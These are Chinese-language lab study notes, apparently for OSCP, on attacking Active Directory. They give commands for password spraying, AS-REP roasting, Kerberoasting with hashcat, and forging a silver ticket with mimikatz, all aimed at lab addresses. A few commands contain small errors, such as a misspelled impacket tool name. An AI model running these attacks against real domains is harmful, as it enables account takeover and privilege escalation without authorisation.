 

## 攻击AD域

### Spray Password

域中密码爆破有阈值，所以反过来用密码破解用户名

```powershell
powershell -ep bypass
.\Spray-Passwords.ps1 -Pass Password1

# kali下也有这种类型的工具
crackmapexec smb 10.0.2.94 -u user.txt -p Password1 -d oscp.com
```

### AS-REP(Pre Auth)

一般用户拿到TGT之前是会经过DC的预身份认证

若DC中给某个管理员账户取消了预身份认证，该用户可以直接得到TGT，可以用所有用户向DC发一个身份认证的请求，返回的信息若有用某个账号hash加密的会话密钥，可以对密钥进行解密

要实现这种攻击：需要有一个普通的账号和密码

```shell
impacket-GetNPUsers --dc-ip 10.0.2.91 -request -outputfile hash.txt oscp.com/Bob 
# 输入密码
Password1

# hash.txt 返回的是用alice的hash加密的信息
hash --help | grep -i kerberos
hashcat -m 18200 hash.txt rockyou.txt -r /usr/share/hashcat/rules/best64.txt
# -r 是规则文件
```



### Kerberosting(SPN)

针对SPN的弱密码来进行攻击

```shell
impacket-GetNuserSPNs -request -dc-ip 10.0.2.91 oscp.com/bob # 知道一个域中普通账号密码就行
# 输入密码

# 获取由服务账号hash加密的密文 将它生成h.txt
hashcat -m 13100 h.txt rockyou.txt -r /usr/share/hashcat/rules/best64.txt
# 获得sqladmin的账号，是域管理理员组的成员
```

### 银票

用来做提权的

需要：SPN服务账号的密码（如获取明文，可以把它加密成 nt hash)，SPN名，域的SID

```powershell
mimikatz.exe
privilege::debug
kerberos::golden /sid:domain_sid /domain:oscp.com /ptt /target:www.oscp.com /service:http /rc4:spn_hash /user:bob
```
